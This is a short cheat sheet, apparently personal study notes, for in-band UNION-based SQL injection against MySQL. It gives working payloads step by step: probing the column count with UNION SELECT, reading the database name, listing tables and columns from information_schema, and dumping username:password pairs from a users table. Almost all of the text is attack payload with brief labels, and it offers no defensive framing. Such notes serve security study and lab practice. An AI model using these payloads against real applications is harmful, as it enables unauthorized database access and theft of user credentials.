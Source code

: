 - - -
## In-Band SQLi : 

```mysql
UNION SELECT 1
UNION SELECT 1,2
UNION SELECT 1,2,3
```

Now, We got Success, If the <mark style="background: #ABF7F7A6;">error message has gone</mark>. --> 200 OK !!

**<u>Get Database Name</u>** : 
```mysql
UNION SELECT 1,2,database()
```

**<u>Get Table Names</u>** :
```mysql
UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'database-name'
```

**<u>Get Columns Names</u>** : 
```mysql
UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'
```

**<u>Dumping selected coloum</u>** : 
```mysql
UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```

